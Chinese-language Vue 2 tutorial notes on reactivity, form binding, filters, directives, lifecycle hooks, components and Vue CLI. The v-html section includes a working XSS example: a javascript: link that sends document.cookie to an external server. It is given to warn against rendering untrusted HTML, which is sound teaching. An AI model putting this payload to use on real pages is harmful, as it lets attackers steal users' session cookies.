### 3.4.3 列表排序

针对列表排序，我们可以进行如下操作：

首先对排序状态设置标识：

- 0 - 初始状态
- 1 - 降序状态
- 2 - 升序状态

之后在计算属性的 filpersons 中进行判断：

```js
filPerons(){
	const arr = this.persons.filter((p)=>{
		return p.name.indexOf(this.keyWord) !== -1
	})
	//判断一下是否需要排序
	if(this.sortType){
		arr.sort((p1,p2)=>{
			return this.sortType === 1 ? p2.age-p1.age : p1.age-p2.age
		})
	}
	return arr
}
```


## 3.5 Vue 检测数据发生改变的原理

1. Vue 会监视 data 中**所有层数的数据**
2. 如何监测**对象**中的数据？
   - 主要是通过 setter 实现监视，并且要在 new Vue 的时候就要传入要监测的数据
     1. <font color="red">对象中后追加的属性，Vue 默认是不做响应式处理的</font>
     2. 如需给后添加的属性做响应式，可以使用如下的 API：
        - Vue.set(target, propertyName/index,  value)
        - vm.$set(target, propertyName/index, value)

3. 如何监测**数组**中的数据？

   通过包裹数组更新元素的方法实现，本质就完成以下两件事：

   1. 调用原生对应的方法对数组进行更新
   2. 重新解析模板，进而更新页面

4. 在 Vue 中修改数组中的某个元素要使用如下方法：

   1. 使用如下的 API：<u>push、pop、unshift、splice、sort、reverse</u>
   2. `Vue.set()` 或 `vm.$set()`

   > :warning:`Vue.set()` 或 `vm.$set()`这两个方法不能给 vm 或 vm 的根数据对象添加属性

**demo**

**提前搭建好结构**

```vue
<div id="root">
    <h1>学生信息</h1>
    <h2>学生姓名: {{student.name}}</h2>
    <h2>学生年龄:{{student.age}}</h2>
    <h2>学生性别:{{student.gender}}</h2>
    <h2>学生爱好:</h2>
    <ul>
        <li v-for="(h, index) in student.hobby">
            {{h}}
        </li>
    </ul>
    <h2>学生好友:</h2>
    <ul>
        <li v-for="(f, index) in student.friends">
            {{f.name}} - {{f.age}}
        </li>
    </ul>
</div>
<script>
    const vm = new Vue({
        el: '#root',
        data: {
            student: {
                name: '张三',
                age: 18,
                hobby: ['抽烟', '喝酒', '烫头'],
                friends: [
                    { name: 'jerry', age: 35 },
                    { name: 'tony', age: 36 }
                ]
            }
        }
    });
</script>
```

展示信息如下：


接下来，为了方便演示，我们直接来到控制台进行操作：

1. 直接修改 student 中 name 值，观察是否会引起响应

   ```js
   vm.student.name = '李四'
   // 或者
   vm._data.student.name = '李四'
   ```

   结论：数据发生响应，页面内容发生变化，说明对于对象，初始化时就添加的属性，Vue 会为其做响应式，即添加 getter 和 setter

2. 创建 stuednt 中原本不存在的属性值 gender

   ```js
   vm.student.gender = '男'
   ```

   虽然实际值发生改变，但页面为得到响应，后添加的属性，Vue 不做响应

3. 解决 gender 未得到响应的解决方法

   ```js
   // 写法1
   vm.$set(vm.student, 'gender', '男')
   // 写法2
   Vue.set(vm.student, 'gender', '男')
   ```

   > :warning:`Vue.set()` 方法不能给 vm 或 vm 的根属性添加响应式属性，否则就会报错：
   >
   > 

4. 修改 student.hobby 里面的数组元素 hobby[0]

   ```js
   vm.student.hobby[0] = '学习'
   ```

   未得到响应，因为数组中必须通过 Vue 包装的方法进行修改

5. 修改 hobby[0] 调整方式

   ```js
   vm.student.hobby.splice(0,1,'学习') // 将 splice(start, deleteLength, replace_val)
   // 删除第一个就是用 unshift，删除最后一个使用 pop,追加使用 push，替换就使用 splice
   ```

6. 如果我们想要替换数组，同时搭配未被侦听的数组方法，例如`filter()`、`concat()` 和 `slice()`，他们**不会变更原始数组，而是替换原始数组**，可以使用如下方法：

   ```js
   example1.items = example1.items.filter(function (item) {
     return item.message.match(/Foo/)
   })
   ```

7. 如果数组中的元素是一个对象，Vue 也会给数组中的对象实施监视


## 3.6 收集表单数据

1. type = "text"，则 v-model 收集的是 value 值

2. type = "radio"，则 v-model 收集的是 value 值，并且我们要给标签配置 value 值，否则无论选择那个单选框，得到的 value 值都是 null

3. type = "checkbox"，这个有比较多的讲究

   - 没有配置 value 
     - 那么收集的就是 checked（true or false）
   - 配置 value
     - v-model (即 value) 的初始值是非数组（例如空字符），那么收集的就是 checked(（布尔值），点击任意一个复选框，其他复选框也会响应，处于选中状态
     - v-model 的初始值为数组，那么收集的就是 value 组成的数组（这种方法可以实现需求）

4. 对于其他的表单元素，例如 select…option 和 textarea，我们可以直接为其配置 v-model，v-model 收集的就是 value的值

5. v-model 的三个修饰符：
   1. lazy：失去焦点再收集数据，使用场景：在 textarea 中输入的文本众多，Vue 中响应敏感，每一次增删改都会引起响应，影响性能，使用 lazy 修饰符可以减少响应次数，提高性能
   2. number：输入的字符串转为有效的数字，常和 input 里面的 type="number" 搭配使用（type = "number" 用于限制输入的字符尾数字类型，v-model.number 用于将字符串转换为数字）
   3. trim：首尾空格过滤，该修饰符比较使用，尤其是在搜索框中搜索关键字中使用较多


## 3.7 过滤器

定义：过滤器是<font color="red">对要显示的数据进行格式化后再显示</font>（适用于一些简单逻辑的处理）

语法格式如下：

```js
// 1. 注册过滤器
Vue.filter(name, callback)
// 或者
new Vue(filter: {})

// 2. 使用过滤器
{{ xxx | 过滤器名}}
// 或者
v-bind:属性 = 'xxx | 过滤器名'
```

**案例：格式化时间**

为了更好地进行演示，我们接下来需要去 [BootCDN](https://www.bootcdn.cn/) 去下载相关方法的包，搜索【dayjs】进行下载并导入：


代码如下：

```js
<div id="root">
    <h1>现在时间是：{{time | getFmtTime}}</h1>
</div>
<script>
    const vm = new Vue({
        el:'#root',
        data:{
            time:Date.now()
        },
        filters:{
            getFmtTime(value) { // value 是被过滤出来的数据
                return dayjs(value).format('YYYY年MM月DD日 HH:mm:ss');
            }
        }
    })
</script>
```

显示结果如下：


:bell:扩展1：**过滤器中还可以传入多个参数**

```html
<h1>现在时间是：{{time | getFmtTime('YYYY年MM月DD日 HH:mm:ss')}}</h1>
```

```js
getFmtTime(value, str) { 
    return dayjs(value).format(str);
}
```

> 这里第一个参数为过滤出来传入的数据，第二个参数则为过滤器中的传入的参数


:bell:扩展2：**设置多个过滤器**

```html
<h1>现在时间是：{{time | getFmtTime('YYYY年MM月DD日 HH:mm:ss') | mySlice}}</h1>
```

```js
filters:{
    getFmtTime(value, str) { 
        return dayjs(value).format(str);
    },
    mySlice(value) { 
        return value.slice(0,4)
}
```

效果如下：


:bell:扩展3：**设置全局过滤器**

之前我们设置的过滤器都是在 Vue 实例对象的 filters 上，这样设置的过滤器是局部过滤器中生效，在其他 vm 中不起效果，如果我们想要设置全局过滤器，可以如下设置：

```js
Vue.filter('mySlice', (value) => {
    return value.slice(0, 4)
})
```


# 4 内置指令和自定义指令

## 4.1 v-text

`v-text`指令的作用是用来<font color="red">向其所在的节点中渲染文本内容</font>

:herb:`v-text` 和 插值语法的区别在于：<font color="red">`v-text` 会替换掉节点中的文本内容，而插值语法不会</font>

```html
<h2 v-text="name">我不好</h2>
```

```js
data:{
    name:'你好呀'
}
```

**效果图如下：**


我们就插值语法显得更加灵活，因为使用插值语法可以实现预置文本和渲染文本同时显示

```html
<h2>{{name}},我不好</h2>
```

:warning:注意：<font color="red">`v-text`的值只能在从 vm 调用过来使用，不能直接在页面中渲染使用</font>，例如：

```html
<h2 v-text="你好呀">我不好</h2>
```

**报错如下：**


## 4.2 v-html

`v-html`指令的作用：<font color="red">向指定节点中渲染包含 html 结构的内容</font>

与插值语法和`v-text`的区别：

1. `v-html`会替换掉节点中所有的内容，而插值语法和`v-text`不会
2. `v-html`可以识别 html 结构

:warning:注意：

1. 在网站上动态渲染任意的 HTML 是非常危险的行为，容易导致 XXS 攻击（Cross Site Scripting）
2. 一定要在可信的内容上使用 `v-html`，永远不要用在用户提交的内容上

在说明存在什么安全隐患之前，我们先需要了解 cookie 的运行原理，原理图如下：


同时，cookie 是不能跨浏览器使用的


接下来，我们假设百度（https://www.baidu.com）是我们想要收集其他人 cookie 的所准备的服务器，接下来，我们可以利用如下代码去将他们浏览器中的 cookie 发送到自己的服务器中进行窃取用户信息：

在准备之前，我们需要利用 <u>Cookie Editor</u> 插件来删除测试页面的 cookie，并添加自定义的无意义的 cookie

```vue
<div id="root">
    <div v-html="str"></div>
</div>
<script>
    new Vue({
        el: '#root',
        data: {
            str: `<a href="javascript:location.href ='http://www.baidu.com?cookie='+document.cookie">兄弟，这里有你想要的资源</a>`
        }
    })
</script>
```

效果如下：


当我们一点击，就会将当前网页的 cookie 传入到设定好的服务器中：


但是，浏览器也考虑到 document.cookie 获取 cookie 这些敏感信息存在安全隐患，所以对于某些 cookie ，添加了 `HttpOnly:true`这个属性，我们通过一般的 JS 协议，无法获取设置了这个参数的 cookie

## 4.3 v-cloak

`v-cloak`指令本质是一个特殊属性，<font color="red">Vue 实例创建完毕之后并接管容器后删除 `v-cloak`属性</font>

使用方法：<u>搭配 CSS 解决网速过慢，Vue 实例不能及时渲染的问题</u>

**demo**

```css
/* css 样式 */
[v-cloak] {
    display: none;		/* 匹配 v-cloak 属性，使其不显示*/
}
```

```vue
<div id="root">
    <div v-cloak>{{name}}</div>
</div>
<script>
    new Vue({
        el:'#root',
        data:{
            name:'尚硅谷'
        }
    })
</script>
```

如果 <font color="red">Vue 实例内容过多，DOM 结构无法得到及时渲染，会呈现原始形式</font>，例如 "{{name}}" 这种错误形式，为了避免这种情况，需要在未加载完成之前就不显示这种错误形式，可以为其添加 `v-cloak` 属性，搭配上 CSS 中的`display:none;`就可以实现这种需求，并且在 <font color="red">Vue 加载完成之后，回收 `v-cloak` </font>，又可以重新显示出来


## 4.4 v-once 指令

`v-once`指令会<font color="red">使得节点在初次动态渲染之后，就视为静态内容</font>，以后数据的改变不会引起`v-once`所在结构的更新，可以用于优化性能

```vue
<div id="root">
    <h2 v-once>初始化的值为：{{n}}</h2>
    <h2>当前的值为：{{n}}</h2>
    <button @click="n++">点击n+1</button>
</div>
<script>
    const vm = new Vue({
        el:'#root',
        data:{
            n:1
        },
    })
</script>
```

效果图如下：


无论我们如何点击，初始的值始终不变


## 4.5 v-pre

`v-pre`指令用于<font color="red">跳过其所在节点的编译过程</font>，可以利用它跳过没有使用指令语法和插值语法的节点，可以加快编译速度


## 4.6 自定义指令

接下来我们用两个需求来推动自定义指令的使用

- 需求1：定义一个`v-big` 的指令，功能和`v-text`功能类似，但会把绑定的数值放大 18 倍
- 需求2：定义一个`v-fbind`的指令，但是可以让其所绑定的 input 元素默认获取焦点（一上来就可以获得焦点）

```html
<h2>当前的n值是：<span v-text="n"></span> </h2>
<h2>放大10倍后的n值是：<span v-big="n"></span> </h2>
```

这里就要用到 ==directives== 这个配置项

```js
// 函数式
big(element, binding) {
    element.innerText = binding.value * 10;
    // element 指的是绑定元素的标签(在这里为span), binding 为绑定的元素，binding.value 在这里指的就是 n
}
```

```js
// 对象式
fbind:{
    // 指令与元素成功绑定时，这时候只是生成虚拟 DOM ，页面中的真实 DOM 还没有渲染出来
    bind(element, binding) {
        element.value = binding.value;
    }, 
    // 指令所在元素被插入页面时，元素获取焦点
    inserted(element, binding) {
        element.focus();
    }, 
    // 指令所在模板被重新解析
    update(element, binding) {
        element.value = binding.value;
    }
}
```

:pencil:总结：

- 函数式自定义指令：指令函数被调用的时机包括

  - 指令与元素成功绑定时
  - 指令所在的模板被重新解析时

- 对象式自定义指令：里面的每一条指令函数代表被调用的时机

  - `bind`函数：指令与元素成功绑定时

  - `inserted`函数：指令所在元素被插入页面时

  - `update`函数：指令所在模板被重新解析

- 函数式指令和对象式指令相较起来，对象式指令更加细化，函数式指令只是`bind`函数和`update`函数的集合

这里对于获取焦点的行为，我们为什么不使用函数式，就是因为函数式无法细化到【inserted】这个时机，我们一开始还没有将真实的 input 渲染到 DOM 结构中，就是用 focus 函数，获得焦点的行为就无法奏效


## 4.7 自定义指令误区

1. 命名问题：

   - 指令定义时不加`v-`，但是在使用时需要加`v-`
   - 指令名如果是由多个单词组成，需要使用 kebab-case（短横线式命名）的方式，不要使用 camelCase（驼峰命名）的方法

2. 指令中配置项（配置函数）的 this 指向问题

   - 指令函数中  this 指向的不是 vm，而是 window 顶级对象

3. 全局指令和局部指令

   - 局部指令：

     ```js
     new Vue({
     	directives:{指令名：配置对象}
     })
     ```

   - 全局指令

     ```js
     Vue.directive(指令名, 配置对象 | 回调函数)
     ```


# 5 *生命周期

## 5.1 mounted

`mounted`的用法：在 Vue 完成模板的解析并把初始的真实的 DOM 元素放入页面之后（挂载完毕）调用 `mounted`

示例应用如下：**为文字设置一个渐变的透明度不断变化的定时器**

```vue
<div id="root">
    <!-- 对象的简写形式，opacity:opacity 可以简写为 opacity -->
    <h1 :style="{opacity}">您好，欢迎您</h1>    
</div>
<script>
    new Vue({
        el:'#root',
        data:{
            opacity:1
        },
        mounted(){
            setInterval(() => {
                this.opacity -= 0.01;
                if(this.opacity <= 0) this.opacity = 1;
            },16)
        }
    })
</script>
```

效果图如下：


这个 mounted 函数即为<font color="red">生命周期函数（或生命回调函数、钩子函数）</font>，用于在 Vue 特殊时期帮助我们执行一些特殊的函数，生命周期函数的特点：

1. 生命周期函数的名字不可更改，但是函数的具体内容是程序员根据需求编写的
2. 生命周期函数中的 this 指向的是 <font color="red">vm 或 组件实例对象</font>


在官网，对生命周期函数有一个完整的流程图，如下：


## 5.2 挂载流程

**`beforeCreate` 函数**

```js
beforeCreate() {
    console.log('beforeCreate');
    console.log(this);
    debugger;			// 设置断点
}
```

通过观察，打印出来的 vm 身上没有 data 中数据和 methods 中方法

**`created`函数**

```js
created() {
    console.log('created');
    console.log(this);
    debugger;			// 设置断点
}
```

**innerHTML 和 outerHTML**


Vue 在编译解析阶段，编译的是 outerHTML

**`beforeMount` 函数**

```js
beforeMount() {
    console.log('beforeMount');
    console.log(this);
    debugger;
}
```

此阶段，仅仅生成了虚拟 DOM ，但是<font color="red">页面呈现的是未经编译的 DOM </font>


**`mounted`函数**

当 Vue 将内存中的虚拟 DOM 转换为真实 DOM 并插入到页面之后，这个 `mounted` 开始生效，在此阶段执行的 DOM 操作有效

---

在 `mounted` 函数之前的解析模板阶段还有两条分支线，如下


- 前面一条分支：如果我们在 vm 实例中未声明 el 绑定的具体 DOM，那么 Vue 就会判断我们有没有设置 `vm.$mount(el)`，如果有则继续往下执行

- 后面一条分支：使用 template 解析模板字符串

  ```js
  template: `
  <div>
      <h1>生命周期</h1>
      <h2>当前值为:{{n}}</h2>
  </div>`
  ```

  > :small_red_triangle:注意：使用 template ，里面模板字符串只能有一个根节点，并且会将原来的模板字符串给替换掉

---

**附：**

1. 由于 template 是一个不显示标签，所以，我们在 template 模板属性中不能使用 template 作为根节点
2. 虚拟 DOM 转化为真实 DOM 过程中，会将 DOM 复制一份在 `vm.$el`中，以便使用 Diff 算法进行复用


## 5.3 更新流程

**`beforeUpdate`**

在此阶段，<font color="red">数据是新的，但是页面仍然是旧的</font>，也就是<font color="red">页面尚未和数据保持一致</font>

**`updated`**

在此阶段，<font color="red">数据是新的，页面也是新的</font>


## 5.4 销毁流程

当 `vm.$destroy()`被调用之后，生命周期就进行了销毁阶段

> 这会完全销毁一个实例，清理它与其它实例的连接，解绑它的全部指令及事件监听器（这里的事件监听器指的是自定义事件，不包括原生 JS 事件）

销毁流程也包两个阶段：`beforeDestroy` 和 `destroyed` 

在 `beforeDestroy` 阶段，我们可以获取 <u>data、methods、指令</u>等等，但是**对其做出的任何修改都不会引起响应**，在这之后会销毁所有的监视属性、组件和事件监听器等等，最后到达 `destroyed` 销毁完成阶段


## 5.4 生命周期总结

生命周期函数（也即钩子函数）一共有 11 个，其中 3 个需要在特殊情况下才会触发，另外 8 个构成 4 对



**示例：通过钩子函数完成对定时器的销毁**

```vue
<div id="root">
    <h1 :style="{opacity}">生命周期</h1>
    <button @click="stop">停止改变透明度</button>
</div>
<script>
    const vm = new Vue({
        el:'#root',
        data:{
            opacity: 1,
        },
        mounted() {
            this.timer = setInterval(() => {
                this.opacity -= 0.01;
                if (this.opacity <= 0) this.opacity = 1;  
                console.log(111);
            }, 20)
        },
        methods:{
            stop(){
                // clearInter(this.timer)
                this.$destroy();
            }    
        },
        beforeDestroy() {
            clearInterval(this.timer);
        },
    })
</script>
```

效果图如下：


# 6 组件

## 6.1 模块与组件、模块化与组件化

**传统方式编写应用存在的缺点**


1. 依赖关系混乱，不好维护
2. 代码复用率低

**使用组件方式编写应用**


组件的定义：<font color="red">实现应用中**局部**功能**代码**和**资源**的**集合**</font>


- 模块化：当应用中 JS 都以模块来编写的，那么这个应用就是一个模块化的应用
- 组件化：当应用中的 JS 都以组件来编写的，那么这个应用就是一个组件化的应用


## 6.2 非单文件组件

- 非单文件组件：一个文件中包含有 n 个组件
- 单文件组件：一个文件中只包含 1 个组件

接下来，我们介绍非单文件组件，但我们要知道，实际开发过程中，单文件组件用的多

Vue 中使用组件的三大步骤：

1. 定义组件
2. 注册组件
3. 使用组件

**定义组件**

使用 Vue.extend(options) 创建，其中 options 和使用 new Vue(options) 的 options 基本一样，但是有如下区别：

1.  没有绑定容器，即无 el —— 最终所有的组件都要经过一个 vm 的管理，由 vm 中的 el 决定使用那个容器
2. data 必须写成函数 —— 避免组件复用时，数据存在引用关系

> 备注：使用 template 可以配置组件结构


**注册组件**

1. 局部注册：在 vm 中传入 components 选项
2. 全局注册：使用`Vue.component('组件名', 组件)`


**使用组件**

直接在 HTML 结构中，使用组件标签


**局部组件**

```vue
<div id="root">
    <!-- 使用组件 -->
    <school></school>
</div>
<script>
    // 1. 创建组件
    const school = Vue.extend({
        template:`
        <div>
            <h2>学校名称：{{schoolName}}</h2>
            <h2>学校地址：{{address}}</h2>
        </div>
        `,
        data() {
            return {
                schoolName:'尚硅谷',
                address:'北京昌平'
            }
        }
    })

    // 2. 注册组件
    new Vue({
        el:'#root',
        // 局部注册
        components:{
            // 两种形式：一种是键值对，另一种可以直接写组件名
            // myschool:school
            school
        }
    })
</script>
```

效果图如下：


**全局组件**

```js
// 1. 创建组件
const hello = Vue.extend({
    template: `
    <div>
        <h2>你好呀，{{name}}</h2>
    </div>
    `,
    data() {
        return {
            name:'Tom',
        }
    }
})

// 2. 注册全局组件
Vue.component('hello', hello);
```

效果图如下：


> :warning:所有的组件必须都要放在 vm 之前，所有的注册组件行为必须放在注册组件之后，否则会出现如下错误：
>
> 


## 6.3 组件的注意点

1. 关于组件名
   - 由一个单词组成：
     1. 第一种写法：首字母小写：school（在 Vue 开发者工具显示时还是首字母大写）
     2. 第二种写法：首字母大写：School
   - 由多个单词组成：
     1. 第一种写法：Kebab-case 命名，my-school
     2. 第二种写法：CamelCase 命名，MySchool（需要 Vue 脚手架支持）
   - 备注：
     1. 组件名尽可能回避 HTML 中已有的元素名称，例如: h2、H2
     2. 可以使用 <strong style="color:red">name 配置项指定组件在开发者工具中呈现的名字</strong>

2. 关于组件标签
   1. 第一种写法：`<school></school>`
   2. 第二种写法：`</school>`
   
      > :warning:注意：自闭合这种写法在<u>非脚手架</u>中会产生问题，就是<strong style="color:red">自闭合组件后面的组件都会失效</strong>
3. 一个简写方式
   - `const school = Vue.extend(options)` 可简写为：`const school = options`


## 6.4 组件的嵌套

**demo**

```vue
<div id="root">

</div>
<script>
    // 定义一个 student 组件
    const student = Vue.extend({
        template: `
        <div>
            <h2>你好,我是 {{name}}!!!</h2>    
        </div>
        `,
        data() {
            return {
                name: 'student',
            }
        }
    })
    // 定义一个 school 组件，里面嵌套 student
    const school = Vue.extend({
        template: `
        <div>
            <h2>你好，我是{{name}}</h2>
            <my-student></my-student>
        </div>
        `,
        data() {
            return {
                name: 'school',
            }
        },
        components: {
            'my-student': student
        }
    })
    // 定义个 hello 组件
    const hello = Vue.extend({
        template: `
        <div>
            <h2>Hello Vue!</h2>    
        </div>
        `
    })
    // 定义一个 app 组件，这个组件管理 Vue 中所有组件
    const app = Vue.extend({
        template: `
        <div>
            <hello></hello>
            <school></school>                
        </div>
        `,
        components: {
            school,
            hello
        }
    })
    // 创建 vm
    const vm = new Vue({
        template: `
        <app></app>
        `,
        el: '#root',
        components: {
            app
        }
    })
</script>
```

效果图如下：


嵌套关系如下：


## 6.5 VueComponent

1. 组件本质上是一个名为 VueComponent 的构造函数，是通过 `Vue.extend` 生成的

2. 我们每次使用组件，也就是使用组件标签时，Vue 解析都会帮助我们生成一个组件的实例对象（vc）

   > :information_source:每次调用 Vue.extend ，返回的都是一个新的实例对象

3. 关于 this 的指向：

   - 组件配置中：data 函数、methods 函数、watch 函数、computed 函数，它们的 this 指向的都是 VueComponent 实例对象，简称为 vc（组件实例对象）
   - `new Vue(options)` 配置中的：data 函数、methods 函数、watch 函数、computed 函数，它们的 this 指向均是 Vue 实例对象，简称为 vm


## 6.6 vm 和 vc 之间的关系


这里有一个重要的内置关系：

```js
VueComponent.prototype.__proto__ === Vue.prototype
```

> 要存在这个关系的原因：让组件实例对象（vc）可以访问到 Vue 原型上的属性和方法


## 6.7 单文件组件

基本结构：

- 子组件：其中包括 template  模板字符串、script 脚本 和 CSS 样式文件，通过 `export defualt vc` 暴露给外部组件，例如：Student.vue、School.vue（在 VS code 中可以通过 `<v + tab`实现快速写入模板）

  > 注意：这个快键键的前提我们在 VS code 中安装了 Vue 3 Snippets 插件
- 总组件：以 App.vue 命名，首先通过 `import xxx from url` 导入子组件，再通过 `export defualt vc` 暴露给  main.js 文件
- main.js 文件中使用 new Vue 创建 vm,，最后引入到 index.html 中使用

:warning:<font color="red">这样写法是不完善的，需要脚手架的支持</font>


# 7 脚手架

Vue 脚手架是 <u>Vue 官方提供的标准化开发工具（开发平台）</u>，英文名叫做 ==Vue CLI==

> CLI 的英文全称为 "Command Line Interface"

官方文档：[传送入口](https://cli.vuejs.org/zh/)

---

截止到 2022-11-23， Vue CLI 的最新版本为 5.x，而 Vue 的最新版本为 3.x


## 7.1 安装脚手架

1. 全局安装 @vue/cli （<strong style="color:red">仅第一次执行</strong>）

   ```bash
   npm install -g @vue/cli
   ```

   > 如果全局安装失败，可以将 node 安装目录的用户权限修改为 "完全控制"

2. **<font color="red">切换到要创建项目的目录</font>**，然后使用命令创建项目

   ```bash
   vue create xxx
   // 例如: vue create vue-test
   ```

   > :warning:注意：<strong style="color:red">创建的工程名必须全部小写</strong>，不能使用大写字母
   >
   > 

   

   这里我们选择使用创建一个 Vue 2 的项目，等后面讲解了 Vue 3 后再进行创建 Vue 3 的项目。除此之外，我们可以看到多了两个js 解释器：

   - babel：<u>将 ES6 语法转化为 ES5 语法</u>
   - eslint：<u>进行语法检查</u>

3. 进入创建出来的工作目录，并使用如下命令启动项目

   ```bash
   npm run serve
   ```

   

   当我们使用 npm run serve 后不仅会进行编译并运行项目，node.js 还会帮助我们开启一个本地服务器和一个网络服务器，默认端口号：8080

   

   - 本地用户上下两个服务器都可以使用
   - 区域网中的其他用户只能使用下面的 Network 服务器

   > 使用 Ctrl + C 可以关闭服务器

:information_source:备注：

1. 使用 npm （包管理工具）的前提是要安装 node.js

2. 如果出现下载缓慢的情况则需要配置 npm 镜像，如果配置成淘宝的镜像

   ```bash
   npm config set registry https://registry.npm.taobao.org
   ```

   > 我们也可以通过 `npm config get registry` 来查看当前所使用的的镜像源

3. Vue 脚手架隐藏了所有的 webpack相关配置，若想查看具体的 webpack 配置，执行如下命令：

   ```bash
   vue inspect > output.js
   ```

当我们一切操作执行完毕之后，使用 Vue 开发者工具，可以看到 Hello World


---

我们在创建完成一个项目后，使用 `npm run serve` 命令运行项目可能会出现如下报错信息：


**详细解释：**

```
There are multiple modules with names that only differ in casing.
有多个模块同名仅大小写不同
This can lead to unexpected behavior when compiling on a filesystem with other case-semantic.
这可能导致在一些文件系统中产生不是预期的行为
Use equal casing.
使用唯一的写法
```

**出现原因**：<strong style="color:red">项目工程命令不规范，或使用了驼峰命名</strong>

**解决方案：**

1. 使用下划线命令法
2. 使用 kebab-case（短横线命名法）

## 7.2 分析脚手架

当我们进入创建好的工作目录之后，会出现如下文件和文件夹


-  .gitignore 是 git 的忽略要上传文件的配置文件

- babel.config.js 是 babel 的控制文件，用于将 ES6 转换为 ES5
- package.json 和 package-lock.json 文件是 npm 的管理文件，前一个文件是包的说明书，后一个文件是包的版本控制文件

  > 当我们发现自己的 node_modules 被破坏后，只要这两个文件存在，就可以通过 `npm install vue` 来进行重构
- src 中的 main.js 是整个项目的入口文件
- public 中的 index.html 文件即为主页

```
├── node_modules 
├── public
│   ├── favicon.ico: 页签图标
│   └── index.html: 主页面
├── src
│   ├── assets: 存放静态资源
│   │   └── logo.png
│   │── component: 存放组件
│   │   └── HelloWorld.vue
│   │── App.vue: 汇总所有组件
│   │── main.js: 入口文件
├── .gitignore: git版本管制忽略的配置
├── babel.config.js: babel的配置文件
├── package.json: 应用包配置文件 
├── README.md: 应用描述文件
├── package-lock.json：包版本控制文件
```

在 package.json 文件中可以看到以下命令：


这些命令其实就是我们之前 `npm run serve` 和 `npm run build` 等命令的全称形式：

- `npm run serve`：在本地环境中运行，会使用 node.js 生成一个 web 服务而访问页面
- `npm run build`：打包生成静态文件（将 Vue 文件转成 html、css、js 文件）。通常我们将静态文件上传到服务器后通过 nginx 或者 tomcat 启动一个后台服务器的 web 服务然后通过配置让该服务指向静态文件达到访问页面的目的

:warning:**我们在使用脚手架测试的时候如果出现如下错误提示：**


错误提示翻译过来的意思：<u>让我们使用 kebab-case （短横线）的命名的方法来命名组件名</u>，但是其实单个单词也可以，这里其实是**语法检查的时候把不规范的代码当成了错误导致编译失败**

修改方案：

1. 使用规范的命名，例如：student-name 或 StudentName

2. 修改配置项，关闭语法检查，在根目录下找到 vue.config.js 文件，设置如下：

   ```js
   const { defineConfig } = require('@vue/cli-service')
   module.exports = defineConfig({
     transpileDependencies: true,
     lintOnSave:false /*关闭语法检查*/
   })
   ```

   

### 7.2.1 小试牛刀 —— 组件练习

:file_folder:components 文件夹

```js
// School.vue 文件
<template>
  <div>
    <h2>学校名称: {{name}}</h2>
    <h2>学校地址: {{address}}</h2>
    <button @click='showName'>点我弹出学校名</button>
  </div>
</template>

<script>
export default {
    name:'School',
    data() {
        return {
            name:'江西师范大学',
            address: '江西南昌'
        }
    },
    methods: {
        showName() {
            alert(this.name);
        }
    }
}
</script>

<style scoped>
    h2 {
        background-color: pink;
    }
</style>
```

```js
// Student.vue
<template>
  <div>
    <h2>学生姓名:{{ name }}</h2>
    <h2>学生年龄:{{ age }}</h2>
  </div>
</template>

<script>
export default {
    name:'Student', // 指定组件名
    data() {
        return {
            name:'张三',
            age:18
        }
    }
};
</script>
```

:spiral_notepad:App.vue 文件

```js
<template>
  <div id="app">
    
    <School></School>
    <Student></Student>
  </div>
</template>

<script>
  // 引入组件
  import School from './components/School'
  import Student from './components/Student'
export default {
  name: 'App',
  components: {
    School,
    Student
  }
}
</script>

<style>
#app {
  font-family: Avenir, Helvetica, Arial, sans-serif;
  -webkit-font-smoothing: antialiased;
  -moz-osx-font-smoothing: grayscale;
  text-align: center;
  color: #2c3e50;
  margin-top: 60px;
}
</style>
```

这里，我们对 public 文件夹下的 index.html 文件进行分析：

```html
<!DOCTYPE html>
<html lang="">
  <head>
    <meta charset="utf-8">
    <!-- 针对 IE 浏览器的一个特殊配置，含义是让 IE 浏览器以最高的渲染级别渲染 -->
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <!-- 开启移动端的理想视口 -->
    <meta name="viewport" content="width=device-width,initial-scale=1.0">
    <!-- BASE_URL 指的是 public 的文件夹的路径，用于配置页签图标 -->
    <link rel="icon" href="<%= BASE_URL %>favicon.ico">
    <!-- 配置网页标题，到 package.json 里面的 name 进行配置标题 -->
    <title><%= htmlWebpackPlugin.options.title %></title>
  </head>
  <body>
    <!-- 当浏览器不支持JS时，noscript中的元素就会被渲染 -->
    <!-- 如果是 Chrome 浏览器，我们可以到【设置】==> 【隐私设置和安全性】 ==> 【网站设置】 ==> 【内容】 ==> 【关闭支持 JS】 记性测试 -->
    <noscript>
      <strong>We're sorry but <%= htmlWebpackPlugin.options.title %> doesn't work properly without JavaScript enabled. Please enable it to continue.</strong>
    </noscript>
    <!-- 容器 -->
    <div id="app"></div>
    <!-- built files will be auto injected -->
  </body>
</html>
```


在 Vue 中的文件执行顺序如下：

```
main.js ==> App.vue ==> compoents/School.vue、components/Student.vue，最后将 main.js 创建的 Vue 实例对象放入 index.html 中的 div 容器
```

最终显示效果如下图：


## 7.3 render 函数

我们之前对 main.js 文件中每行代码都进行了分析，但是有一行我们却遗漏了，就是 `render: h => h(App)` 这行代码 ，其实如果我们按照以前的写法应该如下写：

```js
new Vue({
  templates: `<App></App>`,
  components:{
    App
  }
}).$mount('#app')
```

使用 `npm run serve` 命令运行之后发现报错如下：


> 报错信息大致意思如下：
>
> ```
> 你正在使用的的是是运行时版本的 Vue，未提供模板编译器，解决方案就是使用包含模板编译器版本的 Vue（将导入 Vue 的路径进行修改，修改为'vue/dist/vue'）或者使用 render 函数对模板进行预编译
> ```

我们根据引入的 vue 来查看导入的究竟是那个版本的 Vue


再进入 dist 文件夹下查看有哪些版本的 Vue


关于不同版本的 Vue：

1. Vue.js 和 Vue.runtime.xxx.js 的区别：

   我们可以到 【node_modules → vue → dist】 中查看不同版本的 Vue

   

   其中：

   - vue.js 是完整版的 Vue，包含【核心功能 + 模板解析器】，支持 template
   - vue.runtime.xxx.js 是运行版的 Vue，只包含：【核心功能】，缺少模板解析器，不支持 template

2. 因为 vue.runtime.xxx.js 没有模板解析器，所有不能使用 template 配置项，需要使用 render 函数接收到的 createElement 函数去指定具体内容

> :information_source:我们在 Vue 文件中是可以直接使用 template 的，原因就在于 Vue 脚手架为我们提供了模板解析器这个包
>
> 

---

在 vue 中，render 是一个函数，里面的参数是 createElement，代表创建元素，语法如下：

```js
render(createElement) {
	return createElement('h2', '你好啊');
    // 创建<h2>你好啊</h2>的节点元素
}
```

如果是创建节点元素，例如 `<App></App>`，我们可以使用

```js
render(createElement) {
	return createElement(App)
}
```

精简写法：

```js
render:h => h(App)
```

